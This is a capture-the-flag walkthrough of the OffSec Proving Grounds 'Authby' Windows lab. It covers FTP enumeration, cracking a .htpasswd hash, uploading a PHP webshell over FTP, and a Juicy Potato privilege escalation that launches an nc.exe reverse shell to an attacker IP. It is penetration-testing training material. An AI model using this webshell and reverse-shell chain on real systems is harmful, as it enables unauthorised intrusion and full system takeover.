


# Authby — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Windows

---

## TL;DR

Anonymous FTP enumeration reveals `.htpasswd` hash for the admin user → Hashcat cracks it to `elite` → Credentials `admin:elite` give access to HTTP auth on port 242 → FTP directory is the web root → Upload PHP webshell via FTP → Juicy Potato to NT AUTHORITY\SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.230.46
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | zFTPServer 6.0 build 2011-10-17 |
| 242 | HTTP | Apache httpd 2.2.21 (Win32 PHP/5.3.8) |
| 3145 | zftp-admin | zFTPServer admin |
| 3389 | RDP | Terminal Services |

A basic Nmap scan highlights Anonymous FTP and an Apache web server on an unusual port (242) utilizing HTTP Basic Authentication.
```text
HTTP/1.1 401 Authorization Required
```

---

## Exploitation — FTP to .htpasswd cracking

Logging into FTP using `anonymous:anonymous`:
We see directories like `extensions`, `certificates`, and **`accounts`**.

Under `accounts`, we find configurations for three users:
- `admin`
- `anonymous`



Logging back into FTP as `admin:admin` works! (A severe misconfiguration). 
Looking around the `admin` FTP share, we discover a `.htpasswd` file.


We grab the hash and crack it with `hashcat`:
```bash
hashcat -m 1600 admin.hash `/usr/share/wordlists/rockyou.txt` --force
```
Result: **`elite`**

Now, we browse to `http://192.168.230.46:242` and authenticate with `admin:elite`.
Success! 

We realize that the FTP share we have access to as `admin` is actually the webroot for the Apache server on port 242.
We upload a simple PHP webshell via FTP:
```php
<?php system($_GET['cmd']); ?>
```
Accessing it in the browser gives us code execution. We spin up a reverse shell.

---

## Privilege Escalation — Juicy Potato

Checking privileges as the Apache service user:
```cmd
whoami /priv
```
`SeImpersonatePrivilege` is enabled!

Because this is an older Windows system running .NET v2, the standard PrintSpoofer might not work, but **Juicy Potato** is perfect here.

Transfer `jp32.exe` (Juicy Potato 32-bit/older version) and `nc.exe` to the box.

Run Juicy Potato using an appropriate CLSID:
```cmd
.\jp32.exe -t * -l 443 -p "C:\windows\tasks\nc.exe" -a "192.168.45.206 6969 -e cmd" -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 
```
*(CLSID picked from the [Juicy Potato CLSID list](https://github.com/ohpe/juicy-potato/tree/master/CLSID) for the corresponding OS/Service).*

A new reverse shell drops as **NT AUTHORITY\SYSTEM**. 🎉

---

## Key Takeaways

- **FTP Accounts Directory**: Often contains metadata or configuration details about users.
- **Default/Weak Passwords**: `admin:admin` for FTP and a weak `.htpasswd` (`elite`) crackable via Rockyou.
- **Service Mapping:** If an FTP server's working directory matches the web root, you have an unrestricted file upload vector.
- **Juicy Potato vs PrintSpoofer:** Remember to check the .NET/Windows version. Older boxes rely completely on JuicyPotato when `SeImpersonate` is discovered.

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
